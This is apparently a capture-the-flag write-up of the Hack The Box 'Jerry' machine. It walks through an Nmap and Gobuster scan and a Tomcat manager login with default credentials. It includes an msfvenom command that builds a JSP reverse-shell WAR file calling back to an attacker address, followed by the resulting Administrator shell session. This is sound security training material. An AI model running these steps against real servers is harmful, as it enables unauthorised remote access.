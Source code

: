```yaml
---
"title": "Hack The Box - Jerry"
"date": 2020-04-20
"tags": ["windows", "easy", "tomcat"]
"keywords": ["windows", "easy", "tomcat"]
"author": "Ghostbyt3"
"layout": "single"
"showTableOfContents": true
"authorbox": true
"pager": true
"toc": true
"mathjax": true
"sidebar": "right"
"subtitle": "Writeup"
---
```




![694398c04fbbb4b4c6b507180ee3fb06.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jerry/70f494906c3d48118c3b9a09dc3e7620.png)

We are going to pwn Jerry from Hack The Box.

Link : [https://www.hackthebox.eu/home/machines/profile/144](https://www.hackthebox.eu/home/machines/profile/144)

Let's Begin with our Initial Nmap Scan.

## Nmap Scan Results:

```
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```

## HTTP:

Only HTTP Port is open, and its running `Tomcat` service and its version is `7.0.88`. We get the default tomcat configuration page.


![679f2e5cfa08b4e9f4bbcebeed0010af.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jerry/763886848f9a45c6aac20183903457fe.png)


## Gobuster Results:
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.95:8080/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/04/20 10:22:14 Starting gobuster
===============================================================
/aux (Status: 200)
/com1 (Status: 200)
/com2 (Status: 200)
/com3 (Status: 200)
/con (Status: 200)
/docs (Status: 302)
/examples (Status: 302)
/favicon.ico (Status: 200)
/host-manager (Status: 302)
/lpt1 (Status: 200)
/lpt2 (Status: 200)
/manager (Status: 302)
===============================================================
2020/04/20 10:24:23 Finished
===============================================================
```

`/manager`
There is a login page for manager.So let’s try to access it .
![a0986527fad314f30d5833f4792350ad.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jerry/76e47a71750346bbadcb1f91634d868f.png)
The default login credentials for Tomcat. You can get [here](https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown).

Logged in successfully with `tomcat : s3cret`


![adeb7712828d540a6af85e0050add2d8.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jerry/2c7cfa06a42540c8ad26bc835670ba73.png)

Here we can see the information about the box.


![1163529f91334808e8417d5e61f4825f.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jerry/af8940be7c0141c4a88476e5b0ca0925.png)

There is a option to upload `WAR` files.


![ea70bbc644929d40c4fdc22a7bdcb11c.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jerry/e12823f25b6d4e80a75bab9783e40150.png)

> WAR file is a file used to distribute a collection of JAR-files, JavaServer Pages, Java Servlets, Java classes, XML files, tag libraries, static web pages and other resources that together constitute a web application.

We can use `msfvenom` for generating a `.war` format payload.
```
root@w0lf:~/CTF/HTB/Boxes/Jerry# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=1234 -f war > shell.war
Payload size: 1088 bytes
Final size of war file: 1088 bytes
```
## Getting Shell:


![1f6a90af94b8fa8eb5ec47af6aa16476.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jerry/27cfc16afbfa4949aac984950183cbaf.png)

The file name is `shell.war` so I can access it as `/shell`

![46508d9cfbb7f76846acbd7434f520bf.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-jerry/a779bab5194b478c98de5c4e91c7da8f.png)

```
C:\Users\Administrator>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator

06/18/2018  11:31 PM    [DIR](DIR)          .
06/18/2018  11:31 PM    [DIR](DIR)          ..
06/19/2018  06:43 AM    [DIR](DIR)          Contacts
06/19/2018  07:09 AM    [DIR](DIR)          Desktop
06/19/2018  06:43 AM    [DIR](DIR)          Documents
06/19/2018  06:43 AM    [DIR](DIR)          Downloads
06/19/2018  06:43 AM    [DIR](DIR)          Favorites
06/19/2018  06:43 AM    [DIR](DIR)          Links
06/19/2018  06:43 AM    [DIR](DIR)          Music
06/19/2018  06:43 AM    [DIR](DIR)          Pictures
06/19/2018  06:43 AM    [DIR](DIR)          Saved Games
06/19/2018  06:43 AM    [DIR](DIR)          Searches
06/19/2018  06:43 AM    [DIR](DIR)          Videos
               0 File(s)              0 bytes
              13 Dir(s)  27,602,595,840 bytes free

C:\Users\Administrator>cd Desktop
cd Desktop

C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop

06/19/2018  07:09 AM    [DIR](DIR)          .
06/19/2018  07:09 AM    [DIR](DIR)          ..
06/19/2018  07:09 AM    [DIR](DIR)          flags
               0 File(s)              0 bytes
               3 Dir(s)  27,602,595,840 bytes free
               
C:\Users\Administrator\Desktop>cd flags
cd flags

C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  07:09 AM    [DIR](DIR)          .
06/19/2018  07:09 AM    [DIR](DIR)          ..
06/19/2018  07:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)  27,602,595,840 bytes free

C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
70----------------------------00

root.txt
04----------------------------0e
               

```
